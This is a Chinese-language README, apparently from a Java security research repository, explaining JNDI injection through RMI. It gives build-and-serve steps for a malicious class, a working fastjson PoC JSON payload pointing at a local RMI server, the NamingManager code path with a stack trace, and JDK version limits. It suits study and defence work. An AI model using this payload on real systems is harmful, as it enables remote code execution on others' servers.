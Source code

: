 # 一、JndiServer

## 1.1 使用
1. 编译恶意文类：javac RemoteEvilObject.java 
2. 打包：jar cvf  remote.jar  RemoteEvilObject.class
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServer.main
4. 使用fastjson的poc即可触发漏洞
```json
{
  "aaa": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "bbb": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/anything","autoCommit":true}
}
```

## 1.2 说明
服务端将一个`ReferenceWrapper`对象绑定到`anything`上，这个对象中`Reference`指向了一个远端地址。
当客户端执行`InitialContext.lookup()`时，会进入`com.sun.jndi.rmi.registry.RegistryContext.decodeObject`，
进而执行`NamingManager.getObjectInstance`获取`Reference`实例对象，本例中就是`RemoteEvilObject`，
进而调用`javax.naming.spi.NamingManager.getObjectFactoryFromReference()`由于本地ClassPath中没有这个类，
就会去远端下载（默认下载到的是jar包，所以需要在第2步中进行打包为jar），
下载后就会根据这个类创建对象，从而触发漏洞
```java
public class NamingManager {

    /**
     * Retrieves the ObjectFactory for the object identified by a reference,
     * using the reference's factory class name and factory codebase
     * to load in the factory's class.
     * @param ref The non-null reference to use.
     * @param factoryName The non-null class name of the factory.
     * @return The object factory for the object identified by ref; null
     * if unable to load the factory.
     */
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 尝试从本地获取Class
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // 本地ClassPath中找不到这个类，则从ref中设置的codebase中读取
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
}
```
下载的调用栈信息如下
```text
sun.net.www.protocol.http.Handler.openConnection(Handler.java:62)
sun.net.www.protocol.http.Handler.openConnection(Handler.java:57)
java.net.URL.openConnection(URL.java:971)
sun.net.www.protocol.jar.JarURLConnection.<init>(JarURLConnection.java:84)
sun.net.www.protocol.jar.Handler.openConnection(Handler.java:41)
java.net.URL.openConnection(URL.java:971)
sun.misc.URLClassPath$JarLoader.getJarFile(URLClassPath.java:708)
sun.misc.URLClassPath$JarLoader.access$600(URLClassPath.java:587)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:667)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:660)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath$JarLoader.ensureOpen(URLClassPath.java:659)
sun.misc.URLClassPath$JarLoader.<init>(URLClassPath.java:610)
sun.misc.URLClassPath$3.run(URLClassPath.java:362)
sun.misc.URLClassPath$3.run(URLClassPath.java:352)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath.getLoader(URLClassPath.java:351)
sun.misc.URLClassPath.getLoader(URLClassPath.java:328)
sun.misc.URLClassPath.getResource(URLClassPath.java:194)
java.net.URLClassLoader$1.run(URLClassLoader.java:358)
java.net.URLClassLoader$1.run(URLClassLoader.java:355)
java.security.AccessController.doPrivileged(Native Method)
java.net.URLClassLoader.findClass(URLClassLoader.java:354)
java.lang.ClassLoader.loadClass(ClassLoader.java:423)
java.net.FactoryURLClassLoader.loadClass(URLClassLoader.java:789)
java.lang.ClassLoader.loadClass(ClassLoader.java:356)
java.lang.Class.forName0(Native Method)
java.lang.Class.forName(Class.java:266)
com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:85)
javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158) 
javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:456)
com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:120)
com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:203)
javax.naming.InitialContext.lookup(InitialContext.java:411)
JndiClient.main(JndiClient.java:28)
```

## 1.3 限制
利用条件如下：

1. RMI客户端的上下文环境允许访问远程Codebase。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。

    然而从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。
    当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。
    使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

**这也是为什么RMI的方式并不是那么通用的原因**

# 二、JndiServerUseLocalClassFactory
Jndi提供的`ReferenceWrapper`包含的Class对象在客户端的ClassPath中存在，就不存在访问远程Codebase的限制了

## 2.1 使用
1. 直接运行`JndiServerUseLocalClassFactory`
2. 客户端运行即可弹出计算器

# 参考
[关于 JNDI 注入](https://paper.seebug.org/417/)
[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)
[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)